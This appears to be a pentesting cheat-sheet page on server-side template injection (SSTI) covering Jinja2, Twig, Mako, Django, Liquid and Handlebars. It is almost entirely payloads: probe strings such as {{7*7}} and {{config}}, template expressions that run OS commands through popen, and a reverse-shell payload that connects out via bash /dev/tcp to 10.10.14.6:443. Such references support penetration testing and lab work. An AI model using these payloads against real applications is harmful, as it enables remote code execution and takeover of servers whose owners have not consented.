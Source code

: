 ```yaml
---
description: Server Side Template Injection
icon: syringe
---
```


# SSTI

<details>

<summary><mark style="color:orange;"><strong><code>Jinja2</code></strong>,</mark> <mark style="color:orange;"><strong><code>Twig</code></strong>, and</mark> <mark style="color:orange;"><strong><code>Mako</code></strong></mark> <mark style="color:purple;">Engines.</mark></summary>

{% hint style="info" %}
<pre><code><strong>${config}
</strong></code></pre>

```
${7*7}
```

```python
${self}
```
{% endhint %}

{% code title="Using OS module" overflow="wrap" %}
```python
${self.module.cache.util.os.popen('whoami').read()}
```
{% endcode %}

</details>

<details>

<summary><mark style="color:green;"><strong><code>Python (Jinja2, Django)</code></strong></mark> <mark style="color:purple;"><strong>//</strong></mark> <mark style="color:orange;"><strong><code>PHP</code><code> </code><code>(</code><code>Liquid)</code></strong></mark> <mark style="color:purple;"><strong>//</strong></mark> <mark style="color:orange;"><strong><code>Handlebars</code></strong></mark> <mark style="color:purple;"><strong>Engines</strong></mark></summary>

{% hint style="info" %}
<mark style="color:red;">**`Testing`**</mark>

```django
{{7*7}}
```

```django
{{config}}
```

```
{{self}}
```
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">**`Exploitation`**</mark>

{% code title="Python global scope" overflow="wrap" %}
```sh
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```
{% endcode %}

{% code title="Reverse Shell" overflow="wrap" %}
```sh
{{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"').read() }}
```
{% endcode %}
{% endhint %}

</details>
